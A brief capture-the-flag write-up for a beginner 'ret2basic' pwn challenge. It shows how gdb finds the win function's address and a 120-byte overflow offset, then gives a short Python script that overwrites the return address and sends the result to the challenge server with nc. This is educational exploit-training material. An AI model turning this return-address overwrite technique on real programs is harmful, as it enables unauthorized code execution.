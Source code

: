 ### Basic Return Oriented Programming Buffer Overflow

This challenge was a very basic pwn challenge in which what we had to do was find the offset at which the Buffer Overflow occured and then re write the EIP with the Address of the win function. The address of the win function can be found like so : 
```bash
./gdb ./ret2basic
gdb-peda$ info functions
All defined functions:
Non-debugging symbols:
<REDACTED>
0x00000000004011e6  setup
0x0000000000401215  win
0x000000000040130f  vuln
<REDACTED>

```

And to find the buffer overflow we can use GDB as well :
```
gdb-peda$ pattern_create 200 
gdb-peda$ r 
Can you overflow this?: AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
# After this do pattern_search and we will get the offset at 120
```
After getting the Offset we can easily write a script to exploit it 
```python
padding  = "\x15\x12\x40\x00\x00\x00\x00\x00"
payload = "a" * 120

print(payload + padding)
```
and then 
```
python exploit.py > input.txt
nc ip port < input.txt
```